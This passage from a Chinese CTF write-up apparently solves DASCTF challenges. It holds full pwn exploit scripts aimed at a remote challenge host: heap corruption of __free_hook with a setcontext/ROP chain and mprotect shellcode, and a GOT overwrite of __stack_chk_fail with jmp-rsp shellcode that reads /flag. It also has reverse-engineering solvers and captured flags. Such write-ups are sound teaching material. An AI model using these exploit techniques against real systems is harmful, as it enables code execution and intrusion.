    main_addr = int(io.recv(14),16)-0x202160
    print("main_addr------------->: ",hex(main_addr))

    free(2)
    edit(4,b'\x00'*0x68+p64(0x71)+p64(main_addr+0x202020)) 
    add(5,0x68)
    add(6,0x68)
    add(7,0x68)
    edit(7,p64(0xfbad1800) + p64(0)*3 + b'\x00')
    libc_base= u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))-0x3ed8b0
    print("libc_base------------------->: ",hex(libc_base))

    rdi = libc_base+libc.search(asm("pop rdi\nret")).__next__()
    rsi = libc_base+libc.search(asm("pop rsi\nret")).__next__()
    rdx = libc_base+libc.search(asm("pop rdx\nret")).__next__()
    rax = libc_base+libc.search(asm("pop rax\nret")).__next__()
    ret = libc_base+libc.search(asm("ret")).__next__()
    syscall=libc_base+libc.search(asm("syscall\nret")).__next__()
    jmp_rsp=libc_base+libc.search(asm("jmp rsp")).__next__()
    free_hook=libc_base+libc.sym['__free_hook']
    setcontext=libc_base+libc.sym['setcontext']+53
    open_addr=libc_base+libc.sym['open']
    read_addr=libc_base + libc.sym['read']
    write_addr=libc_base + libc.sym['write']

    payload=(b'\x00'*0x68+p64(0)+p64(free_hook&0xfffffffffffff000)+p64(0)*2+p64(0x2000)).ljust(0xa0,b'\x00')+p64(free_hook&0xfffffffffffff000)+p64(syscall)


    add(8,0x18)
    add(9,0x58)
    add(10,0x58)
    add(11,0x18)
    edit(8,b'\x00'*0x18+p8(0xc1))
    free(9)
    add(12,0xb8)
    free(10)
    edit(12,b'\x00'*0x58+p64(0x61)+p64(free_hook)) 
    add(13,0x58)
    add(14,0x58)
    edit(14,p64(setcontext))
    add(15,0x400)
    edit(15,payload)

    free(15)
    payload  = p64(rdi)+p64(free_hook&0xfffffffffffff000)
    payload += p64(rsi)+p64(0x1000)
    payload += p64(rdx)+p64(7)
    payload += p64(rax)+p64(10)
    payload += p64(syscall) #mprotect(free_hook&0xfffffffffffff000,0x1000,7)
    payload += p64(jmp_rsp)
    payload += asm(shellcraft.open('/flag'))
    payload += asm(shellcraft.read(3,free_hook+0x300,0x30))
    payload += asm(shellcraft.write(1,free_hook+0x300,0x30))

    sl(payload)

    itr()


if __name__ == "__main__":
    while True:
        # io = process(pwnfile)
        io = remote("139.155.126.78",28809)
        try:
            pwn()
        except:
            io.close()

```

DASCTF{17426987630018936403289199453850}

### Inequable\_Canary



这里改retaddr为vuln的地址。



这里有个任意地址写的漏洞和栈溢出的漏洞。把\_\_stack\_chk\_fail改成vuln中ret的地址，当程序报错时任然会执行后面的代码进而栈溢出。

然后本题能写shellcode，还有个jmp\_rsp的指令。所以在栈上布置我们的shellcode，然后jmp跳到我们的shell上执行代码，拿到shell

```
from pwn import *
from LibcSearcher import *

# context(log_level='debug',arch='i386', os='linux')
context(log_level='debug',arch='amd64', os='linux')


pwnfile = "./canary"
io = remote("139.155.126.78",25663)
# io = process(pwnfile)
elf = ELF(pwnfile)
libc = ELF("./libc/libc-2.31.so")

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num=4096           :io.recv(num)
ru      = lambda delims         :io.recvuntil(delims)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
lg      = lambda address,data       :log.success('%s: '%(address)+hex(data))

gadget = [0xe3b04,0xe3b01,0xe3afe,0xf1147]

ret_addr = elf.sym['vuln']
stack_chk_fail_got = elf.got['__stack_chk_fail']
jmp_rsp = 0x40081B

ru(b"Say some old spells to start the journey\n")
payload = p64(0x400820)
sl(payload)

ru(b"Tell me the location of the Eye of the Deep Sea\n")
s(b"a"*8+p64(stack_chk_fail_got))

ru(b"I have magic\n")
s(p64(0x4008EF))

ru(b"Let's go!\n")
sh = shellcraft.openat(-100,"/flag",0)
sh += shellcraft.sendfile(1,3,0,0x50)
payload = b"a"*0x28+p64(jmp_rsp)+asm(sh)

# gdb.attach(io)
s(payload)

itr()

```

DASCTF{06678321764964616748335726574063}

## REVERSE

### bouquet

根据题目意思知道有中序，后序和层次遍历

修一下花指令









找到两个字符串

根据代码可以判断出第一个是中序遍历，第二个是后序遍历，第三个是层序遍历

所以输入用层序遍历构建二叉树，然后利用中序和后序遍历进行比较

利用中序密文和后序密文构建二叉树，层序遍历输出得到flag

```
from collections import deque

def LevelOrder(postorder, inorder):
    if not postorder or not inorder:
        return

    def build_tree(postorder, inorder):
        if not postorder or not inorder:
            return None

        root_val = postorder[-1]
        root = {'val': root_val, 'left': None, 'right': None}

        root_index = inorder.index(root_val)

        root['left'] = build_tree(postorder[:root_index], inorder[:root_index])
        root['right'] = build_tree(postorder[root_index:-1], inorder[root_index + 1:])

        return root

    def bfs_traversal(root):
        if not root:
            return

        queue = deque([root])
        while queue:
            node = queue.popleft()
            print(node['val'], end="")

            if node['left']:
                queue.append(node['left'])
            if node['right']:
                queue.append(node['right'])

    tree_root = build_tree(postorder, inorder)

    bfs_traversal(tree_root)


postorder = "j7aw_sC3addq4TAo}8_Fda{SD"
inorder = "ja7Cws_A3daTd4qDo8}F_Sd{a"
LevelOrder(postorder, inorder)

```

### go\_bytes

主要加密就这一句



(flag[i]<<4)|(flag[i+1]>>4)

最后还有个异或



直接用ida\_dbg拿到r8和r9就行



最后解密拿到flag

```
#
# from ida_hexrays import *
# from ida_dbg import *
# from idaapi import *
# from idautils import *
# from idc import *
# from ida_kernwin import *
# '''自定义调试器钩子类'''
# r8=[]
# r9=[]
# class dbg_hooks_t(ida_dbg.DBG_Hooks):
#     global r8,r9
#     '''继承自父类DBG_Hooks'''
#     def __init__(self):
#         ida_dbg.DBG_Hooks.__init__(self)
#     def dbg_suspend_process(self):
#         if "cmp" in GetDisasm(here()):
#             r8.append(cpu.r8)
#             r9.append(cpu.r9)
#             print("r9=",r9)
#             print("r8=",r8)
#             continue_process()
#         if "jz" in GetDisasm(here()):
#             cpu.zf=1
#             continue_process()
#
#
# '''安装/卸载钩子'''
# if 'tmp_dbg_hooks' not in dir():
#     tmp_dbg_hooks = dbg_hooks_t()
#     tmp_dbg_hooks.hook()
#     print('[+] tmp dbg hook success')
# else:
#     tmp_dbg_hooks.unhook()
#     del tmp_dbg_hooks
#     print('[+] tmp dbg unhook success')


r9= [8889, 51704, 35977, 65304, 5177, 19978, 10891, 1995, 48619, 64171, 16379, 30795, 40734, 20459, 19723, 53390, 14523, 52142, 53966, 37182, 2667, 61499, 20603, 14731, 37854, 15566, 17822, 19134, 21822, 12654, 13246, 17150, 52942, 19934, 38955, 41755, 32814, 4846, 63098, 60281]
r8= [8957, 51693, 36029, 65325, 5245, 20077, 10813, 1965, 48637, 64237, 16317, 30765, 40829, 20333, 19773, 53421, 14589, 52205, 53949, 37165, 2685, 61549, 20541, 14765, 37885, 15597, 17853, 18989, 21885, 12653, 13117, 17069, 52989, 19949, 39101, 41773, 32893, 4717, 63037, 60333]
enc=[r9[i]^r8[i] for i in range(len(r9))]
print(enc)


for i in range(40):
    print(chr((enc[i-1]&0xf)<<4 | (enc[i]>>4)),end="")

```

### zistel

直接跟汇编复现算法，可以发现是类似sm4结构的算法，找到主要加密函数



二十轮Feistel 结构的加密，主要还原sub\_100261b



动调能看到清晰的异或，和字节间的移位操作


复现出算法



解密拿到flag

```
import libnum
def getlbytes(l):
    ans = []
    for i in l:
        get = []
        for j in range(4):
            get.append(i & 0xff)
            i >>= 8
        ans += get
    return ans
def getdword(list, mode="little"):
    ans = []
    for i in range(0, len(list), 4):
        ans.append(int.from_bytes(list[i:i + 4], mode))
    return ans
def fun(a1,a2):
    a2^=a1
    temp=getlbytes([a1])
    temp2=getlbytes([a2])
    for i in range(4):
        ecx=temp[i]&3
        temp2[i],temp2[ecx]=temp2[ecx],temp2[i]
    return getdword(temp2)[0]^a1

table=[0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E, 0xBEEFDEAD, 0xBBDBD183, 0x05340F2E]
enc=[0x33293158, 0x60760211, 0x42185F46, 0x63746F29]
# test=getdword(texttoascii("11112222"))
# for i in range(0,len(test),2):
#     v10=test[i]
#     v11=test[i+1]
#     for i in range(20):
#         v10,v11=v11,v10^fun(table[i],v11)
#     print(hex(v10),hex(v11))
#
# enc=[0x635b033b,0x51693109]
for i in range(0,len(enc),2):
    v10 = enc[i + 1]
    v11 = enc[i]
    for i in range(20-1,-1,-1):
        v10,v11=v11^fun(table[i],v10),v10
    print(libnum.n2s(v10).decode()[::-1],end="")
    print(libnum.n2s(v11).decode()[::-1],end="")

```

</font></font></font></font></font></font></font>
